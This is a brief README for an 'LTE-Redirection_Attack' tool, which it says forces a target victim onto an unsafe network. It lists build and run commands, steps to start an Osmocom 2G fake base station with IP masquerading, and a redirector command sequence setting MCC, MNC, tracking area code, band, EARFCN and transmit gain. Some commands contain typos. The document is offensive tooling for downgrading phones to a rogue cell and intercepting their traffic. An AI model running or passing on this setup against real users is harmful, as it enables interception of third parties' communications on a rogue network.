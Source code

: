 # LTE-Redirection_Attack
Force target victim to unsafe network

## Build

```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./osmo-all.sh start
```

Forward your ip in host terminal:
```bash
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
